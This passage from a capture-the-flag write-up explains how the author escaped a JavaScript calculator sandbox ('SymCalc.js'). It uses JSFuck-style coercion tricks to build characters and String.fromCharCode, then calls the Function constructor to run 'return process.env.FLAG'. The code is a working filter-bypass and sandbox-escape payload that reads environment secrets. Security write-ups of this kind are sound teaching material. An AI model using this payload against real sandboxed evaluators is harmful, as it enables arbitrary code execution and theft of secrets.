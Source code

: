 The [way JSFuck approaches `C`](https://github.com/aemkei/jsfuck/blob/1f02651e98da1c13aef76d609755a2568a1aa6b4/jsfuck.js#L54) is pretty genius. It uses the built-in function [`escape`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/escape) to [URL-encode a `<` character to `%3C`](https://en.wikipedia.org/wiki/Percent-encoding#Character_data), and to get a `<` character, it uses one of the [string methods that insert HTML tags around the string](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String#html_wrapper_methods) (for example, `'wow'.big()` returns `<big>wow</big>`). JSFuck uses [`.italics()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/italics), so I used it as well. To get the `escape` function, JSFuck uses `Function` to create a function that returns `escape`, but that's not necessary for SymCalc.js because it allows letters.

```js
C = escape(([] + [])[i + t + a + l + i + c + s]())[2] // 'C' from '%3Ci%3E%3C/i%3E', an escaped '<i></i>'
```

To get `m`, JSFuck uses [`Number`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Number) (the constructor for numbers):

```js
m = ((0)[constructo] + [])[11] // 'm', from 'function Number() { [native code] }'
```

Then for `h` and a lot of the other letters, JSFuck uses [`Number.prototype.toString`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Number/toString) to convert a number into a base that uses `h`, kind of like how hexadecimal uses A--F for its extra six digits. 17 in base 10 is H in bases larger than base 17, so `(17).toString(36)` produces `'h'`. To get `'toString'`, JSFuck concatenates `t` and `o` with [`String.name`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/name), the name of the `String` function.

```js
Str = ([] + [])[constructo] // String, the constructor for strings

h = (17)[t + o + Str[n + a + m + e]](36)
```

Now, I can get `String.fromCharCode`:

```js
fromCharCode = Str[f + r + o + m + C + h + a + r + C + o + d + e]
```

I got lazy, so I just used `fromCharCode` for the rest of the characters. I wrote code to generate code that returns code for running code:

```js
console.log(
  [...'return process.env.FLAG']
    .map(a => `fromCharCode(${a.codePointAt()})`)
    .join(' + ')
)
```

The resulting expression:


```js
fromCharCode(114) + fromCharCode(101) + fromCharCode(116) + fromCharCode(117) + fromCharCode(114) + fromCharCode(110) + fromCharCode(32) + fromCharCode(112) + fromCharCode(114) + fromCharCode(111) + fromCharCode(99) + fromCharCode(101) + fromCharCode(115) + fromCharCode(115) + fromCharCode(46) + fromCharCode(101) + fromCharCode(110) + fromCharCode(118) + fromCharCode(46) + fromCharCode(70) + fromCharCode(76) + fromCharCode(65) + fromCharCode(71)
```

Finally, I can write `this['constructor']['constructor']('return process.env.FLAG')()` without quotes or dots, which you can find in the main [SymCalc.js write-up](#ctf-node-calculator-escape-vm-codegeneration-false).
